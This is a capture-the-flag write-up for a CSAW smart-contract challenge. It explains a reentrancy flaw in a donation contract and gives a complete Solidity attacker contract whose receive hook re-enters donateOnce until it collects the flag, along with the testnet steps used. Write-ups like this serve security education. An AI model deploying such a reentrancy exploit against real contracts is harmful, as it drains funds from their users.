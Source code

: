 This challenge was about [re-entrancy](https://solidity-by-example.org/hacks/re-entrancy/). In `donateOnce`, the call to `msg.sender.call` is made before `doneDonating[msg.sender]` is set to `true`. If we call `donation.donateOnce()` in our `receive` hook, we can "enter" the `donateOnce` body multiple times without being blocked by the if-statement. The later calls execute before the first one has a chance to complete.

```js
// SPDX-License-Identifier: MIT

pragma solidity >=0.8.7;

abstract contract CSAWDonation {
    mapping(address => uint256) public balances;
    mapping(address => bool) public doneDonating;

    function newAccount() virtual public payable;
    function donateOnce() virtual public;
    function getBalance() virtual public view returns (uint256 donatorBalance);
    function getFlag(bytes32 _token) virtual public;
}

contract CSAWDonate {
    CSAWDonation public donation;

    constructor(address donationAddress) payable {
        require(msg.value >= 0.0005 ether);
        donation = CSAWDonation(donationAddress);
    }

    receive() external payable {
        if (donation.getBalance() < 30) {
            donation.donateOnce();
        }
    }

    function main() external {
        donation.newAccount{value: 0.0001 ether}();
        donation.donateOnce();
    }

    function getFlag(bytes32 _token) external {
        donation.getFlag(_token);
    }
}
```

After constructing [our contract](https://ropsten.etherscan.io/address/0xC00d696718ae9dF26F61385570ACcd2737A8a57a) with the address of their `CSAWDonation` contract, we call `main`. This brings our balance to 30, preparing us to call `getFlag`. [Calling](https://ropsten.etherscan.io/tx/0x85d0e11f8ac9784712f95f16023c72c69be9aa8c2f50e24a24c2d7bd91b1b342) our pass-through `getFlag` with the token number from the challenge server gets us the flag.
